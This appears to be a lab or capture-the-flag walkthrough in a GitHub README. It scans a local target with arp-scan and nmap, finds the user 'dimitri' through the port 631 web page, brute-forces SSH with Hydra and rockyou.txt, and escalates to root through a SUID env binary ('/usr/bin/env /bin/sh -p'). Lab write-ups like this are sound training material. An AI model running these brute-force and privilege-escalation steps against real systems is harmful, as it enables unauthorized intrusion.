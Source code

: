 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/d85d1e02-a6f5-4b24-aaa5-caf437e6d01f"></picture></h1>

## **Visualization of our network card**
```bash
ifconfig
```
![image](https://github.com/user-attachments/assets/f33d0347-0390-4371-9536-5b1f2a0558ed)

## **Scanning our network to find connected devices**
```
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/d80884f7-3ad7-40c9-80c1-777115ab4438)

## **Discovering**
```bash
ping -c 192.168.1.220
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.220 -oG allports
nmap -sCV -p22,80 192.168.1.220 -oN targeted
```
![image](https://github.com/user-attachments/assets/df901688-8e24-46e8-b9e5-169d7845111a)

## **PORT 80**
![image](https://github.com/user-attachments/assets/204f1f8b-e815-427e-9c62-c20526874788)

## **PORT 631**
![image](https://github.com/user-attachments/assets/22bb40bd-8097-4ddb-be34-a02d44c94719)

## **Fuzzing Web**
![image](https://github.com/user-attachments/assets/f4e83a33-0334-4246-9a65-858b34a20bf4)
No hidden directories found

## **On the web through port 631 we find a user**
![image](https://github.com/user-attachments/assets/5371ec34-bfb1-44d9-bb44-9e3c123a5d5a)

## **We apply brute force to the SSH service with the found user**
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.220
```
![image](https://github.com/user-attachments/assets/6db3eaac-d157-4c3f-b565-b93279fb2872)

## **We connect via SSH with the discovered credentials**
```bash
ssh dimitri@192.168.1.220
```
![image](https://github.com/user-attachments/assets/3e914ff8-aebf-4a7d-97b0-0eba0a1051d5)

## **elevating privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/7f411ad0-4835-4b8b-885a-c761c79b1366)
![image](https://github.com/user-attachments/assets/6261280b-7621-44bb-9f18-d8c5524258e3)

```bash
/usr/bin/env /bin/sh -p
```
![image](https://github.com/user-attachments/assets/60954417-6077-4df9-94c1-a35aa575829e)




